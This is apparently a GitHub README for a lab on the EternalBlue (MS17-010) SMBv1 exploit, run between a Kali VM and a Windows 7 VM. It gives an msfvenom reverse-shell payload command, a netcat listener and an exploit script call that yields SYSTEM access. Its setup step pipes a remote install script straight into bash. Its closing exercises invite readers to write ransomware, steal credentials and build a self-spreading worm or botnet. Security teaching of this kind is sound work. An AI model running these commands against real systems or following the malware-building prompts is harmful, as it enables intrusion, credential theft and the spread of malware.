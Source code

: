 # EternalBlue

- Built on: Environment: Kali Linux(2020.3) and Vulnerable Windows 7(64bit) VMs (2020.09)

# Objectives:
-	To simulate the Eternal Blue attack by exploiting SMBv1 (Server Message Block) vulnerabilities which inserts malicious packet and spread malware over the network.


## Preparation

- On Linux: `curl -fsSL https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.sh | bash`

- On Windows: merge https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg ([zip](https://raw.githubusercontent.com/j-liang18/fh18c/main/eternalblue/install.reg.zip))

## Steps

1. Create a sharing folder on victim’s computer:
 * 	Open Windows VM (`target.example.com`).
 *	Create a new folder or select any folder to share.
 *	Right click on the folder -> Properties -> Sharing tab -> Advanced Sharing.
 *	In Advanced Sharing, select `Share this folder` -> OK -> Close.
2. Prepare a payload on attacker’s computer: ( You can create your own payload)
   We will use msfvenom command to create a reverse shell and name it ms17-010.exe.
 *	Open Linux VM (`kali.example.com`).
 *	Open a terminal.
 *	Use command: `msfvenom -p windows/shell_reverse_tcp LHOST=kali.example.com LPORT=8443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`
3. Scanning for vulnerabilities:
   We omit the step to probe the victim and identify the vulnerabilities since we already know about it. You can read more about this step on the references.
4. Exploit the vulnerabilities:
 *	Open a new terminal window (to create a listener for the exploitation).
 * 	Use command: `nc -nlvp 8443`
 *	On the first terminal, start exploitation script: `python send_and_execute.py target.example.com ms17-010.exe`
5. Now your payload is running on the victim machine under `NT AUTHORITY\SYSTEM` privilege. We omit the step to verify that.
6. On the second terminal, You should get an inbound connection on your netcat server listening on port 8443, providing you with a shell (cmd). Every command you enter is executed on the victim machine. Switch between two VMs to control on the attacker’s computer and see the change on victim’s computer.

## Exploration

1.	Inspect the Python scripts and related docs (protocol spec) to understand the exploitation:
 Use these question for  deeper understanding:
 *	How the smb protocol (Windows file sharing service) and server work?
 *	What the flaw is? How it is exploited? And how to fix it? etc.
2.	Design your own payload (like the ransomware in the news events, but you're not limited to ransomwares and can do anything on the victim. The guide in the reference proceeds with extracting login credentials from the system manually in the reverse shell).
3.	Think about implementing an exploit inside the payload, and the ability to probe other hosts reachable over the network, attack them and spread itself. This can be used to create a computer worm and/or botnet (discussed elsewhere).


## Reference

- [Exploiting MS17-010 without Metasploit (Win XP SP3)](https://ivanitlearning.wordpress.com/2019/02/24/exploiting-ms17-010-without-metasploit-win-xp-sp3/)
